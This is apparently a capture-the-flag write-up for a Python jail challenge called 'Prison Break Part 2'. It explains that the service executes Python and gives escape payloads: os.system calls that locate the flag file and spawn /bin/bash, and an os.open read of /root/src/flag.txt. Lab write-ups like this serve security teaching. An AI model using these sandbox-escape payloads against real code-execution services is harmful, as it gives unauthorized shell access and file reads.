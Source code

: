 # Prison Break Part 2
## Jail

> This feels like a whole different world
> 
> nc 128.199.77.173 1342

### Files
- N/A

### Analysis
Participants were expected to figure out that this was also a Python code executor<br/>
Instead of accessing a variable, the challenge required participants to break out of the Python environment to access the flag by using the OS module

### Solution
1. To locate the flag file<br/>
  ```print(os.system("locate flag.txt"))```

2. Gaining root access to the container or directly reading the file<br/>
  ```print(os.system("/bin/bash"))``` or ```print(os.read(os.open('/root/src/flag.txt', os.O_RDONLY),100))```
